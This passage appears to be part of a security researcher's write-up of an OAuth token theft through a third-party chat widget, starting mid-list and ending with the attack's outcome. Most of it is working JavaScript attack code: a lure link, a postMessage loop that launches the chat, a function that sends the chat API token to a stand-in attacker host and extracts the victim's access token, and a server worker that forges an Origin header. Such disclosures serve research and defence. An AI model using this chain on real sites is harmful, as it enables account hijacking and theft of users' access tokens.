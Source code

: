     ```
    <a href="#" onclick="b=window.open('https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...');">Click here to hijack token</a>
    ```
3.  The `launchChatWindowByPostMessage()`-function will continuously send a postMessage to the main window, if opened, to launch the chat-widget:

    ```javascript
    function launchChatWindowByPostMessage() {
      var launch = setInterval(function() {
        if(b) { b.postMessage({type: 'launch-chat'}, '*'); }
      }, 500);
    }
    ```
4.  When the victim clicked the link and ended up on the error page, the chat would launch and a chat-api-token would be created. My reload of the chat-widget iframe on the malicious page would get the `api-token` through postMessage and I could then start to look in the API for the current url of the victim:

    ```javascript
    function lookInApi(token) {
      var look = setInterval(function() {
        fetch('https://fetch-server-side.attacker.test/?token=' + token).then(e => e.json()).then(e => {
          if (e &&
            e.api_data &&
            e.api_data.current_url &&
            e.api_data.current_url.indexOf('access_token') !== -1) {
              var payload = e.api_data.current_url
              document.getElementById('leak').innerHTML = 'Attacker now has the token: ' + payload;
              clearInterval(look);
          }
        });
      }, 2000);
    }
    ```
5.  The server-side page at `https://fetch-server-side.attacker.test/?token=xxx` would make the API-call with the added Origin-header to make the Chat-API think I was using it as a legit origin:

    ```javascript
    addEventListener('fetch', event => {
      event.respondWith(handleRequest(event.request))
    })
    async function getDataFromChatApi(token) {
      return await fetch('https://chat-widget.example.com/api', {headers:{Origin: 'https://example.com', 'Chat-Api-Token': token}});
    }
    function handleRequest(request) {
      const token = request.url.match('token=([^&#]+)')[1] || null;
      return token ? getDataFromChatApi(token) : null;
    }
    ```
6. When the victim clicked the link and went through the OAuth-dance and landed on the error page with the token added, the chat-widget would suddenly popup, register the current URL and the attacker would have the access token from the victim.
